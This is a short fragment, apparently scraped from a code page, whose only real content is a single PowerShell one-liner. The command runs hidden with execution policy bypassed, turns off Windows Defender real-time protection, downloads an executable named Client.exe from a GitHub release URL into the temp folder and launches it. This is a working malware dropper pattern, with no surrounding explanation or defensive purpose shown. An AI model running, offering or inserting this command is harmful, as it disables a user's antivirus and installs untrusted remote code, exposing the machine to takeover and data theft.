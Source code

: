 powershell -w hidden -ep bypass -Command "Set-MpPreference -DisableRealtimeMonitoring $true; iwr -Uri 'https://github.com/xyuoi/uqge/releases/download/e/Client.exe' -OutFile '$env:temp\Client.exe'; Start-Process '$env:temp\Client.exe'"

